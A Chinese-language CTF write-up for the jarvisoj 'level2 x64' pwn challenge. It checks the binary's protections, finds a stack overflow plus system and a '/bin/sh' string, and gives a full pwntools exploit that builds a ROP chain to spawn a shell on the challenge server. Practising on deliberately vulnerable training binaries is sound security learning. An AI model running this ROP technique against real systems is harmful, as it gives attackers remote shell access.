 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2 x64
date: 2022-3-22 11:40:03
permalink: /pages/2e1547494524d188
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2 x64

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2_x64/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return system("echo 'Hello World!'");
}
```

vulnerable_function及函数表如下

![jarvisoj_level2_x64_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level2_x64_1.png)

Gadget

```shell
ROPgadget --binary level2_x64 --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000600a90 : /bin/sh
```

## 思路分析

1. 目前信息：
   - vulnerable_function函数内明显的栈溢出漏洞
   - plt表内有system
   - 存在/bin/sh字符串
   - No PIE
   - NX 保护开启
1. 思路：
   - 可栈溢出，有system，有/bin/sh，构造rop链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2_x64/level2_x64'
io = remote('node4.buuoj.cn', 27585)
# io = process(pwnfile)
elf = ELF(pwnfile)
system_addr = elf.plt['system']
padding = 0x80+8
bin_sh_addr = 0x600A90
pop_rdi_ret = 0x4006b3
payload = flat(['a'*padding, pop_rdi_ret, bin_sh_addr, system_addr])
io.sendline(payload)
io.interactive()
```